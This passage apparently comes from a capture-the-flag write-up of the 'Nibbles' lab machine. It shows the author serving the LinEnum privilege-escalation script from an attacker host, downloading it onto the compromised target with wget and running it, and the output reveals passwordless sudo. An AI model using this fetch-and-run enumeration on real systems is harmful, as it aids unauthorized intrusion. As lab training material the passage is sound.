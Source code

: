 Let us put this aside for now and pull in [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks.

* First, download the script and then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.

```
-[Wed Feb 14-10:59:37]-[table@parrot]-
-[~]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.75 - - [14/Feb/2024 10:59:58] "GET /LinEnum.sh HTTP/1.1" 200 -
```

On the target machine, download the LinEnum script, give it executable permissions, and execute it:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.14.16:8080/LinEnum.sh
<er/personal/stuff$ wget http://10.10.14.16:8080/LinEnum.sh                  
--2024-02-14 13:59:58--  http://10.10.14.16:8080/LinEnum.sh
Connecting to 10.10.14.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K   282KB/s    in 0.2s    

2024-02-14 13:59:58 (282 KB/s) - 'LinEnum.sh' saved [46631/46631]

nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
LinEnum.sh  monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ./LinEnum.sh
./LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Wed Feb 14 14:00:19 EST 2024


### SYSTEM ##############################################
[-] Kernel information:
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

<SNIP>


[-] Super user account(s):
root


[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```